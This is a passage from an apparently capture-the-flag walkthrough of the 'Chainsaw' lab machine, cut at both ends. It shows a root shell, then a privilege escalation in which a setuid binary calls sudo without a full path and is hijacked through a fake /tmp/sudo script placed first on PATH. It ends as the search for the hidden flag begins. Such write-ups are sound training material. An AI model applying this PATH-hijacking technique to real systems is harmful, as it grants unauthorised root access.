              ************************
             * Welcome to the club! *
             ************************
    
     Rule #1: Do not get excited too fast.
        
    root@chainsaw:/home/bobby/projects/ChainsawClub# id
    uid=0(root) gid=0(root) groups=0(root)
    

### Path 2: Exploit Path

The shortcut here is to exploit the fact that the binary makes a call to
`sudo` without specifying the path. I can see this if I run `ltrace`:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ ltrace ./ChainsawClub 
    setuid(0)= -1
    system("sudo -i -u root /root/ChainsawCl"...[sudo] password for bobby: 
    

`system` is passed `sudo` without a path, so it will use the current path,
which I can modify. I’ll open this binary up in Beyond Root and see what it’s
doing.

I’ll add `/tmp` to the front of the path:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ export PATH=/tmp:$PATH
    

Now, I’ll drop a script to run `bash` into `/tmp/sudo`, and get root:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ echo -e '#!/bin/bash\n\n/bin/bash' > /tmp/sudo
    bobby@chainsaw:~/projects/ChainsawClub$ chmod +x /tmp/sudo
    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
    root@chainsaw:~/projects/ChainsawClub# id
    uid=0(root) gid=1000(bobby) groups=1000(bobby),30(dip)
    

## Find Flag

### No Flag Yet

The intended path did give a warning: “Rule #1: Do not get excited too fast.”
With a shell as root, `root.txt` is not the flag:

    
    
    root@chainsaw:/root# cat root.txt
    Mine deeper to get rewarded with root coin (RTC)...
    

### Slack Space

#### Enumeration
